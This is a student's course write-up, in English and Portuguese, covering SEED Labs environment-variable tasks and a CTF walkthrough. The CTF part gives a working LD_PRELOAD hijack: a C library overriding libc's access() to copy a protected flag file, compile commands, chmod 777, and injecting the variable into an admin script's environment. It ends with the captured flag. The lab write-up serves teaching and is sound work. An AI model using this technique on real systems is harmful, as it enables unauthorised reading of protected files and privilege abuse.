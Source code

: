 # Semana 4

## SEED Labs – Environment Variable and Set-UID Program

### Task 1

We started by using the command `env` to print out the environment variables.

![image](assets/s4i1.png)

Then, we tried to create a new variable:

``` 
export HELLO ="Hello!"
```

And verified it exists by using `env` once again.

![image](assets/s4i2.png)

### Task 2

We compiled myprintenv.c twice. 

## CTF - Linux Environment

O objetivo deste desafio CTF era capturar a flag contida no diretório `flag`, para o qual não tínhamos permissão de acesso. Uma vez que o sistema estava em modo "read only", foi necessário localizar o diretório `tmp`.

```
cd ../../tmp
```
Ao ler e completar a Tarefa 7 do Lab desta semana, aprendemos que é possível sobrescrever funções da library libc. Para tal, temos primeiro de criar uma "dynamic linked library" do comando `access`.

```
#include <stdio.h>
#include <stdlib.h>
int access(const char *pathname, int mode) {
    system("/bin/cat /flags/flag.txt > /tmp/flag");
    return 0;
    }
```

Este programa, ao qual demos o nome de `access.c`, será usado para substituir a função `access` quando o script do administrador for executado novamente.

O `access.c` executa `system()`, no qual utilizamos o comando `cat` para redirecionar o conteúdo que deveria ser escrito em `/flags/flags.txt` para o novo ficheiro `flag`, localizado no diretório `tmp`. Ao criar este ficheiro, também alteramos as suas permissões de forma a conceder permissões de escrita, leitura e execução a qualquer utilizador/grupo/outros.

```
touch flag
chmod 777 flag
```

Após criar o ficheiro `flag` e o programa `access.c`,compilamos este da seguinte maneira:

```
gcc -fPIC -g -c access.c 
gcc -shared -o libaccess.so.1.0.1 access.o -lc
```
Mesmo tendo criado uma `dynamic linked library` e connectado à `C library` usando `-lc`, também é necessário adicionar a seguinte variável de ambiente:

```
echo "LD_PRELOAD=/tmp/libaccess.so.1.0.1" > env
```
Esta variável de ambiente, `LD_PRELOAD` faz com que ao executar o script, relendo todas as livrarias, esta seja a primeira a ser lida.

É possível verificar se esta variável foi criada ao executar o comando `cat env`. Dessa forma, concluímos os passos necessários para obter a flag. Restava apenas esperar que o script fosse executado novamente para obter a flag.

Observamos que quando o script era executado, a variável de ambiente desaparecia do `env`, o que indicava que a flag já estava no ficheiro `flag` no diretório `tmp`. Assim, conseguimos obter a seguinte flag.


```
flag{b9cda820a8be213b709eeb1aa2f4725f}
```

